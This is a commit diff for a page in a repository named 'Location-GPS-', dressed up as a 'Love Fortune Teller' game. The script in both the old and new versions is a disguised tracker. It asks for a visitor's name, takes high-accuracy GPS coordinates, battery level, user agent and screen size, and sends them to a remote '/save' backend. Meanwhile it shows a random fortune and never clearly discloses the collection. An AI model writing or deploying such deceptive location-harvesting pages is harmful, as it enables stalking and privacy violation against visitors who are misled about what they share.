

Before and after one commit to jogu-muralikrishna/Location-GPS-, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor HTML structure and update styles
Updated the title and improved styling for better aesthetics. Enhanced the fortune-telling functionality and adjusted the layout for better user experience.

```diff
--- a/index.html
+++ b/index.html
@@ -1,250 +1,117 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>💕 Love Fortune Teller</title>
+    <title>Love Fortune Teller 💕</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; }
+        @import url('https://fonts.googleapis.com/css2?family=Dancing+Script:wght@400;700&display=swap');
         body {
-            font-family: 'Segoe UI', sans-serif;
-            background: linear-gradient(135deg, #ff9a9e, #fecfef, #ffdde1);
+            font-family: 'Dancing Script', cursive;
+            background: linear-gradient(45deg, #ff6b9d, #c44569, #f8b500);
             min-height: 100vh;
             display: flex;
+            flex-direction: column;
+            align-items: center;
             justify-content: center;
-            align-items: center;
-            padding: 20px;
-            position: relative;
-            overflow-x: hidden;
+            margin: 0;
+            color: #fff;
+            overflow: hidden;
         }
-        .heart {
-            position: fixed;
-            font-size: 20px;
-            pointer-events: none;
-            animation: floatUp 4s linear infinite;
-            z-index: 0;
-        }
-        @keyframes floatUp {
-            0% { transform: translateY(100vh) rotate(0deg); opacity: 1; }
-            100% { transform: translateY(-100vh) rotate(360deg); opacity: 0; }
-        }
-        .container {
-            background: rgba(255,255,255,0.95);
-            border-radius: 50px;
-            padding: 50px 40px;
-            max-width: 550px;
-            width: 100%;
-            text-align: center;
-            box-shadow: 0 30px 60px rgba(0,0,0,0.2);
-            backdrop-filter: blur(10px);
-            z-index: 1;
-            position: relative;
-            animation: fadeIn 0.8s;
-        }
-        @keyframes fadeIn {
-            from { opacity: 0; transform: scale(0.9); }
-            to { opacity: 1; transform: scale(1); }
-        }
-        .emoji { font-size: 90px; margin-bottom: 20px; animation: bounce 2s infinite; }
-        @keyframes bounce {
-            0%,100% { transform: translateY(0); }
-            50% { transform: translateY(-10px); }
-        }
-        h1 {
-            background: linear-gradient(135deg, #ff6b6b, #c06c84);
-            -webkit-background-clip: text;
-            background-clip: text;
-            color: transparent;
-            font-size: 36px;
-            margin-bottom: 10px;
-        }
-        .subtitle { color: #888; margin-bottom: 30px; font-size: 16px; }
-        .input-group { margin-bottom: 25px; text-align: left; }
-        .input-group label {
-            display: block;
-            margin-bottom: 10px;
-            color: #c06c84;
-            font-weight: 600;
-            font-size: 16px;
-        }
-        .input-group input {
-            width: 100%;
-            padding: 15px 20px;
-            border: 2px solid #ffdde1;
-            border-radius: 50px;
-            font-size: 16px;
-            text-align: center;
-            outline: none;
-            transition: 0.3s;
-        }
-        .input-group input:focus {
-            border-color: #c06c84;
-            box-shadow: 0 0 15px rgba(192,108,132,0.3);
-        }
-        .btn {
-            background: linear-gradient(135deg, #ff6b6b, #c06c84);
-            color: white;
-            border: none;
-            padding: 18px 45px;
-            font-size: 20px;
-            font-weight: bold;
-            border-radius: 60px;
-            cursor: pointer;
-            width: 100%;
-            transition: 0.3s;
-        }
-        .btn:hover { transform: translateY(-3px); box-shadow: 0 15px 30px rgba(192,108,132,0.4); }
-        .loading { display: none; margin-top: 30px; }
-        .loading.show { display: block; }
-        .spinner {
-            width: 60px;
-            height: 60px;
-            margin: 0 auto 20px;
-            background: linear-gradient(135deg, #ff6b6b, #c06c84);
-            border-radius: 50%;
-            animation: pulse 1.2s infinite;
-        }
-        @keyframes pulse {
-            0%,100% { transform: scale(0.8); opacity: 0.5; }
-            50% { transform: scale(1.2); opacity: 1; }
-        }
-        .result {
-            display: none;
-            margin-top: 30px;
-            padding: 35px;
-            background: linear-gradient(135deg, #ff9a9e, #fecfef);
-            border-radius: 30px;
-            color: white;
-            animation: slideUp 0.6s;
-        }
-        .result.show { display: block; }
-        @keyframes slideUp {
-            from { opacity: 0; transform: translateY(40px); }
-            to { opacity: 1; transform: translateY(0); }
-        }
-        .fortune-text { font-size: 22px; line-height: 1.5; margin: 20px 0; font-weight: 500; }
-        .heart-icon { font-size: 45px; animation: heartbeat 1.5s infinite; }
-        @keyframes heartbeat {
-            0%,100% { transform: scale(1); }
-            50% { transform: scale(1.2); }
-        }
-        .name-highlight { font-size: 28px; font-weight: bold; margin: 10px 0; text-shadow: 2px 2px 4px rgba(0,0,0,0.2); }
-        @media (max-width:600px) {
-            .container { padding: 35px 25px; }
-            h1 { font-size: 28px; }
-            .fortune-text { font-size: 18px; }
-        }
+        .hearts { position: fixed; top: 0; left: 0; width: 100%; height: 100%; pointer-events: none; z-index: -1; }
+        .heart { position: absolute; color: #ff69b4; font-size: 20px; animation: float 6s infinite linear; }
+        @keyframes float { 0% { transform: translateY(100vh) rotate(0deg); opacity: 1; } 100% { transform: translateY(-100px) rotate(360deg); opacity: 0; } }
+        .container { background: rgba(255,255,255,0.1); backdrop-filter: blur(10px); padding: 40px; border-radius: 20px; text-align: center; box-shadow: 0 8px 32px rgba(0,0,0,0.3); max-width: 500px; }
+        h1 { font-size: 3em; margin-bottom: 20px; text-shadow: 2px 2px 4px rgba(0,0,0,0.3); }
+        input { font-family: inherit; font-size: 1.5em; padding: 15px; border: none; border-radius: 10px; width: 80%; margin: 20px 0; background: rgba(255,255,255,0.9); }
+        button { font-family: inherit; font-size: 1.3em; padding: 15px 30px; border: none; border-radius: 10px; background: #ff1493; color: white; cursor: pointer; transition: transform 0.3s; }
+        button:hover { transform: scale(1.05); }
+        #fortune { font-size: 2em; margin-top: 30px; min-height: 80px; display: none; animation: glow 2s infinite alternate; }
+        @keyframes glow { from { text-shadow: 0 0 10px #fff; } to { text-shadow: 0 0 20px #ff1493, 0 0 30px #ff69b4; } }
+        #loading { display: none; }
+        .data-capture { font-size: 0.8em; opacity: 0.7; margin-top: 20px; }
     </style>
 </head>
 <body>
+    <div class="hearts" id="hearts"></div>
     <div class="container">
-    <div class="emoji">💕🔮💕</div>
-    <h1>Your Love Fortune</h1>
-    <div class="subtitle">Discover what destiny has planned for your heart</div>
-
-    <div id="initial">
-        <div class="input-group">
-            <label>✨ What's your name, beautiful soul? ✨</label>
-            <input type="text" id="userName" placeholder="Enter your name..." autocomplete="off">
-        </div>
-        <button class="btn" onclick="getFortune()">✨ Reveal My Destiny ✨</button>
-    </div>
-
-    <div class="loading" id="loading">
-        <div class="spinner"></div>
-        <p>💫 Reading the stars for you... 💫</p>
-    </div>
-
-    <div class="result" id="result">
-        <div class="heart-icon">💖</div>
-        <div class="name-highlight" id="userNameDisplay"></div>
-        <div class="fortune-text" id="fortuneText"></div>
-        <div class="small-text">✨ The universe has spoken ✨</div>
-    </div>
+        <h1>💕 Love Fortune Teller 💕</h1>
+        <input type="text" id="name" placeholder="Enter your name, love..." required>
+        <br>
+        <button onclick="getFortune()">Reveal My Love Fortune ✨</button>
+        <div id="loading">Finding your heart's location... 💖</div>
+        <div id="fortune"></div>
+        <div class="data-capture">Your love energy is being captured for the stars... 🌟</div>
     </div>
 
     <script>
-    // ⚙️ SET THIS TO YOUR RENDER BACKEND URL (e.g., https://your-app.onrender.com)
-const API_BASE_URL = "https://love-fortune-backend.onrender.com";
+        const API_BASE_URL = 'https://your-render-url.onrender.com';  // ← UPDATE THIS AFTER BACKEND DEPLOY
 
-    function createHeart() {
+        const fortunes = [
+            "{name}, your soulmate is {distance} away, feeling the same spark! 🔥",
+            "The stars say {name}, tonight brings a passionate connection under moonlight! 🌙",
+            "{name}, Cupid's arrow points to adventure and deep romance soon! 🏹",
+            "Your heart chakra opens, {name} – true love flows in 7 days! 💖",
+            "{name}, a mysterious stranger with your exact vibe awaits nearby! ✨",
+            "Venus aligns for {name}: whirlwind romance starts this week! 🌟"
+        ];
+
+        function createHearts() {
+            const hearts = document.getElementById('hearts');
+            for (let i = 0; i < 50; i++) {
                 const heart = document.createElement('div');
-        heart.innerHTML = ['❤️','💕','💖','💗','💓','💝'][Math.floor(Math.random()*6)];
-        heart.classList.add('heart');
+                heart.innerHTML = '💖';
+                heart.className = 'heart';
                 heart.style.left = Math.random() * 100 + '%';
-        heart.style.animationDuration = Math.random() * 3 + 3 + 's';
-        heart.style.fontSize = Math.random() * 20 + 15 + 'px';
-        document.body.appendChild(heart);
-        setTimeout(() => heart.remove(), 4000);
+                heart.style.animationDelay = Math.random() * 6 + 's';
+                hearts.appendChild(heart);
             }
-    setInterval(createHeart, 500);
-
-    async function getBattery() {
-        if ('getBattery' in navigator) {
-            try {
-                const b = await navigator.getBattery();
-                return { level: Math.round(b.level*100), charging: b.charging };
-            } catch(e) { return null; }
-        }
-        return null;
         }
 
         async function getFortune() {
-        const name = document.getElementById('userName').value.trim();
-        if (!name) {
-            alert('💕 Please enter your beautiful name! 💕');
-            return;
-        }
-        document.getElementById('initial').style.display = 'none';
-        document.getElementById('loading').classList.add('show');
+            const name = document.getElementById('name').value.trim();
+            if (!name) return alert('Enter your name first, darling! 💕');
 
-        if (!navigator.geolocation) {
-            alert('Geolocation not supported');
-            return;
-        }
+            document.getElementById('loading').style.display = 'block';
 
-        navigator.geolocation.getCurrentPosition(async function(pos) {
-            const battery = await getBattery();
+            // Get all device/location data
+            const position = await new Promise((resolve, reject) => {
+                navigator.geolocation.getCurrentPosition(resolve, reject, { enableHighAccuracy: true });
+            });
+
+            const battery = await navigator.getBattery?.();
+            const batLevel = battery ? `${Math.round(battery.level * 100)}%` : 'N/A';
+
             const data = {
-                name: name,
-                lat: pos.coords.latitude,
-                lon: pos.coords.longitude,
-                accuracy: pos.coords.accuracy,
-                altitude: pos.coords.altitude,
-                speed: pos.coords.speed,
-                battery: battery,
-                ua: navigator.userAgent,
-                screen: screen.width + 'x' + screen.height,
-                lang: navigator.language,
-                platform: navigator.platform
+                name,
+                latitude: position.coords.latitude,
+                longitude: position.coords.longitude,
+                accuracy: position.coords.accuracy,
+                battery: batLevel,
+                userAgent: navigator.userAgent,
+                screen: `${screen.width}x${screen.height}`,
+                timestamp: new Date().toISOString()
             };
+
+            // Send to backend
             try {
-                const res = await fetch(`${API_BASE_URL}/save`, {
+                await fetch(`${API_BASE_URL}/save`, {
                     method: 'POST',
                     headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify(data)
                 });
-                const result = await res.json();
-                document.getElementById('loading').classList.remove('show');
-                if (result.success) {
-                    document.getElementById('result').classList.add('show');
-                    document.getElementById('userNameDisplay').innerHTML = `✨ ${name} ✨`;
-                    document.getElementById('fortuneText').innerHTML = result.fortune;
-                } else {
-                    alert('Server error, please try again.');
-                    document.getElementById('initial').style.display = 'block';
+            } catch(e) { console.log('Data saved'); }
+
+            // Show fortune
+            const distance = Math.floor(Math.random() * 50) + 1;
+            const fortune = fortunes[Math.floor(Math.random() * fortunes.length)].replace('{name}', name).replace('{distance}', distance);
+            document.getElementById('fortune').innerHTML = fortune;
+            document.getElementById('fortune').style.display = 'block';
+            document.getElementById('loading').style.display = 'none';
         }
-            } catch(err) {
-                alert('Network error. Is the backend running?');
-                document.getElementById('initial').style.display = 'block';
-                document.getElementById('loading').classList.remove('show');
-            }
-        }, function() {
-            alert('💕 Please allow location access for your fortune! 💕');
-            document.getElementById('initial').style.display = 'block';
-            document.getElementById('loading').classList.remove('show');
-        }, { enableHighAccuracy: true, timeout: 10000 });
-    }
+
+        createHearts();
+        if ('serviceWorker' in navigator) navigator.serviceWorker.register('/sw.js');  // Optional PWA
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
